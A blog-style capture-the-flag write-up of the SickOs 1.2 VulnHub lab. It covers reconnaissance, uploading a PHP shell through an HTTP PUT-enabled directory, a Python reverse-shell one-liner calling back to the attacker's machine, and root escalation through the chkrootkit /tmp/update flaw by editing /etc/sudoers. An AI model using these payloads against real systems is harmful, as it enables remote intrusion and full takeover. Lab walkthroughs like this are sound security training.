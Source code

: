 ```yaml
---
layout: post
title: "sickos1.2"
date: 2016-05-31 13:08:16 -0500
comments: true
categories: [vulhub,chrootkit,joomla!]
---
```


From [Vulhub](From [Vulhub](https://www.vulnhub.com/entry/csharp-vulnjson,134/)

###Tools:

* netdiscover
* Nmap
* Nikto
* Wfuzz
* Curl

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/sickos1.2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.180 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.180 -p-`

Looks like port 22 and port 80 are openning.

{% img  /images/blog/vulhub/sickos1.2/Selection_002.png   [title manually exploit [alt text]] %}

Check the http://192.168.79.180

{% img  /images/blog/vulhub/sickos1.2/Selection_003.png   [title manually exploit [alt text]] %}

Not excited.

use Nikto:

{% img  /images/blog/vulhub/sickos1.2/Selection_004.png   [title manually exploit [alt text]] %}

Still nothing cool

try wfuzz:

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.79.180/FUZZ 2>/dev/null
```
find a test dir:

{% img  /images/blog/vulhub/sickos1.2/Selection_005.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/sickos1.2/Selection_006.png   [title manually exploit [alt text]] %}

next exam the HTTP options:

```
curl -v -X OPTIONS http://192.168.79.180/test/
```

{% img  /images/blog/vulhub/sickos1.2/Selection_007.png   [title manually exploit [alt text]] %}


looks like it supports PUT.

Now upload php reverse shell (I tried different ports, looks like only 443 port works):


```
nmap -p80 192.168.79.180 --script http-put --script-args http-put.url='/test/shell.php',http-put.file='shell.php'
```


{% img  /images/blog/vulhub/sickos1.2/Selection_008.png   [title manually exploit [alt text]] %}


now the shell is uploaded:


{% img  /images/blog/vulhub/sickos1.2/Selection_009.png   [title manually exploit [alt text]] %}


get the reverse shell:


{% img  /images/blog/vulhub/sickos1.2/Selection_010.png   [title manually exploit [alt text]] %}


A better php shell:

```php
<?php system($_GET["exec"]); ?>
```

Upload this shell, and in brower:

```
http://192.168.79.180/test/exec.php?exec=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.79.173",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
get the shell.


During enumeration step, I follow [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

`ls -l /etc/cron.daily`

{% img  /images/blog/vulhub/sickos1.2/Selection_012.png   [title manually exploit [alt text]] %}

After enumeration, find the system has chkrootkit:

`dpkg -l | grep chkrootkit`


chkrootkit verions is 0.49 and it is vulnerable.


`searchsploit chkrootkit`


`echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

also need to change the privilages on the update file with chmod 777 and wait:

`ls -al /etc/sudoers`

try:

`sudo su`


{% img  /images/blog/vulhub/sickos1.2/Selection_013.png   [title manually exploit [alt text]] %}



DONE










